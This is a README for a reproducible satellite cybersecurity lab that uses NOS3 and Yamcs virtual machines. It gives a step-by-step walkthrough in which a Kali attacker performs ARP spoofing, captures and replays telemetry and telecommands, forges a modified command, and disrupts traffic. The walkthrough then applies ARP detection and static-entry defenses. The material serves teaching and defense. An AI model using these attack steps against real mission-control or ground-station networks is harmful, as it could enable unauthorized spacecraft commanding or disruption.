

# CCSDS Satellite Cybersecurity Lab

A reproducible laboratory for studying the security of satellite communications using NOS3 and Yamcs.

The platform reproduces a simplified ground-to-space architecture composed of independent virtual machines representing a Mission Control Center, Ground Station, Satellite, and Attacker. It can be used to observe telemetry and telecommand traffic, perform network and protocol attacks, and evaluate defensive mechanisms in a controlled environment.

The baseline scenario uses telecommands without SDLS and demonstrates interception, replay, command modification, communication disruption and network defenses.

## Lab Architecture


The laboratory separates each major component into an independent virtual machine in order to reproduce a realistic communication chain.

| VM | Role | Network | IP |
|----|------|---------|----|
| `mc` | Mission Control (Yamcs) | MC-LAN | `192.168.10.20` |
| `gs` | Ground Station / Router | MC-LAN | `192.168.10.30` |
| `gs` | Ground Station / Router | SPACE-LAN | `192.168.20.30` |
| `sat` | Satellite (NOS3) | SPACE-LAN | `192.168.20.10` |
| `kali` | Attacker | MC-LAN | `192.168.10.40` |


# Requirements

## OS

- Linux

## Required Software

- Git
- Vagrant
- VirtualBox

Ubuntu & Debian:

```bash
sudo apt update
sudo apt install -y git vagrant virtualbox
```
---

## Installation and Verification

 The VMs allocate **20 GiB of RAM** in total; adjust `vb.memory` and `vb.cpus` in the `Vagrantfile` to suit your computer, leaving resources for the host.

Clone the repository, or open your existing checkout:

```bash
git clone https://github.com/BaptisteBemel/satellite_lab_cybersecurity.git 
cd satellite_lab_cybersecurity
```

Create and provision the laboratory:

```bash
vagrant up
```

The first deployment may take some time. Provisioning installs the dependencies, prepares the clear telecommand receiver, builds NOS3 and Yamcs, and starts the laboratory services.

---

Run the repository's verification script from the host. It checks connectivity, Yamcs availability and TM/TC traffic:

```bash
bash verification.sh
```

Open **<http://localhost:8090>** and select the **nos3** instance and **realtime** processor.

## Scenario — Attacker on the mission-control network

An attacker has obtained access to the same network as mission control. Starting from Kali, the attacker intercepts communications between MC and the gateway, captures telemetry and commands, and attempts to replay or modify them. The attacker then interrupts selected traffic while the operator observes the effects in Yamcs and cFS.

The final part introduces ARP monitoring and static neighbor entries, allowing the same interception attempt to be repeated with defenses enabled.

### Learning goals

By completing this scenario, you should be able to:

- Establish a man-in-the-middle position using ARP spoofing.
- Capture and replay satellite telemetry and telecommands.
- Modify a command packet and distinguish a checksum from authentication.
- Observe the effects of traffic disruption at mission control and onboard.
- Detect ARP poisoning, apply static ARP protection and explain its limits.

### Walkthrough

Commands identify where they run: Host or a guest opened with `vagrant ssh <name>`. Use separate terminals for commands that keep running. Examples use `eth1` on MC, GS's ground-facing side and Kali; check `ip -br addr` if your interface names differ.

#### Step 1 — Intercept communications

Before starting, note the legitimate MC and GS MAC addresses using `ip link show eth1` inside each VM. You will need them for the defense step.

**Host, first terminal:** start ARP spoofing and leave it running.

```bash
vagrant ssh kali -c 'bash /vagrant/attacks/mitm_start.sh eth1'
```

**Host, second terminal:** capture the intercepted traffic.

```bash
vagrant ssh kali -c 'bash /vagrant/attacks/capture_satcom.sh eth1 /vagrant/captures/mitm.pcap 20'
```

Inspect the neighbor tables on MC and GS:

```bash
vagrant ssh mc -c 'bash /vagrant/defense/check_neighbors.sh'
vagrant ssh gs -c 'bash /vagrant/defense/check_neighbors.sh'
```

**Observe:** the affected neighbor mappings point to Kali's MAC. Open `captures/mitm.pcap` in Wireshark on the host to inspect the intercepted traffic.

#### Step 2 — Replay telemetry

Replay a small sample of the captured telemetry toward mission control.

**Kali:**

```bash
python3 /vagrant/attacks/replay_radio_tm.py /vagrant/captures/mitm.pcap \
    --dst-ip 192.168.10.20 --dst-port 6011 \
    --allow-no-asm --limit 10 --delay 1
```

**Observe:** compare Yamcs `radio-in` counters and decoded telemetry before and during replay. Check whether the replayed data is processed, rather than concluding success from packet arrival alone.

#### Step 3 — Capture and replay a telecommand

**Kali:** start a dedicated capture. While it runs, use Yamcs **Commanding → Send a command** to send `/CFS/CMD/CF_NOOP` once.

```bash
bash /vagrant/attacks/capture_tc_commands.sh eth1 /vagrant/captures/tc_capture.pcap 20
```

Extract the command frames:

```bash
python3 /vagrant/attacks/extract_tc_from_pcap.py \
    /vagrant/captures/tc_capture.pcap --dport 8010 -o /vagrant/captures/tc_extracted
ls /vagrant/captures/tc_extracted/payloads/
```

Select the No-Op frame from this capture. Replace `FRAME_FILE` below with its [filename], then replay it:

```bash
cp /vagrant/captures/tc_extracted/payloads/FRAME_FILE /vagrant/captures/noop-frame.bin
python3 /vagrant/attacks/send_tc_payload.py /vagrant/captures/noop-frame.bin \
    --dst-ip 192.168.20.10 --dst-port 8010 --count 1
```

The extracted binary contains the complete frame. Use the binary for replay; the extractor's CSV packet-header interpretation assumes a bare packet and is not applicable to this frame format.

**SAT:** look for a new execution after the replay:

```bash
docker logs --timestamps --since 1m sc_1_nos_fsw 2>&1 | grep 'CF: No-Op received'
```

**Observe:** an additional No-Op event confirms that the replayed command was executed. Kali sends with its own source IP; the replay utility does not spoof MC's IP.

#### Step 4 — Modify and inject a telecommand

The forging tool edits the inner cFS packet. For the 14-byte No-Op frame captured above, remove its six-byte frame envelope before editing, then put that envelope back. The command remains a No-Op; only its sequence count and checksum change.

**Kali:**

```bash
# Extract the command packet.
dd if=/vagrant/captures/noop-frame.bin of=/vagrant/captures/noop-packet.bin \
    bs=1 skip=6 status=none

# Change its sequence count and regenerate the checksum.
python3 /vagrant/attacks/forge_tc_from_template.py /vagrant/captures/noop-packet.bin \
    -o /vagrant/captures/modified-packet.bin --seq-count 42

# Reattach the original envelope; the packet length is unchanged.
head -c 6 /vagrant/captures/noop-frame.bin > /vagrant/captures/modified-frame.bin
cat /vagrant/captures/modified-packet.bin >> /vagrant/captures/modified-frame.bin

python3 /vagrant/attacks/send_tc_payload.py /vagrant/captures/modified-frame.bin \
    --dst-ip 192.168.20.10 --dst-port 8010 --count 1
```

Choose another sequence count if the original was already 42. Check the cFS log as in Step 3.

**Observe:** successful execution demonstrates acceptance of an attacker-modified command. Recalculating a checksum does not authenticate its sender.

#### Step 5 — Interrupt communications

Keep the MITM running. These scripts drop traffic forwarded through Kali.

**Kali:** block radio telemetry and observe Yamcs `radio-in`:

```bash
bash /vagrant/attacks/drop_radio_tm.sh
```

Remove that rule before testing telecommands:

```bash
sudo iptables -D FORWARD -p udp --dport 6011 -j DROP
bash /vagrant/attacks/drop_tc_commands.sh
```

Send a legitimate No-Op from Yamcs and check whether it appears in the cFS log. Then restore the TC path:

```bash
sudo iptables -D FORWARD -p udp --dport 8010 -j DROP
```

**Observe:** radio TM stops during the first test; commands should not execute during the second. Send a new No-Op after removing the rule to confirm recovery. Debug telemetry and simulation truth can remain visible while radio TM is blocked.

#### Step 6 — Detect and mitigate ARP poisoning

Replace `GS_MAC` and `MC_MAC` in these examples with the legitimate addresses recorded in Step 1.

**MC:** start the detector while spoofing is active:

```bash
sudo python3 -u /vagrant/defense/detect_arp_spoof.py \
    --iface eth1 --expect 192.168.10.30=GS_MAC
```

**Observe:** alerts identify ARP advertisements that disagree with the expected gateway address.

Stop the MITM with **Ctrl+C** in its terminal. In separate guest terminals, install static entries:

**MC:**

```bash
bash /vagrant/defense/static_arp_add.sh eth1 192.168.10.30 GS_MAC
```

**GS:**

```bash
bash /vagrant/defense/static_arp_add.sh eth1 192.168.10.20 MC_MAC
```

Repeat Step 1's spoofing attempt and send a legitimate command from Yamcs.

**Observe:** the trusted neighbor mappings should remain unchanged and legitimate communication should continue. Static ARP addresses this interception technique; it does not authenticate commands or prevent direct routed injection from Kali.

#### Step 7 — Restore the baseline

Stop the MITM and detector with **Ctrl+C**. Ensure the drop rules from Step 5 have been removed, then remove the static entries.

**MC:**

```bash
bash /vagrant/defense/static_arp_del.sh eth1 192.168.10.30
ping -c 1 192.168.10.30
```

**GS:**

```bash
bash /vagrant/defense/static_arp_del.sh eth1 192.168.10.20
ping -c 1 192.168.10.20
```

**Host:** run the verification script again:

```bash
bash verification.sh
```

Confirm that radio telemetry is received and a new legitimate No-Op produces a cFS event.
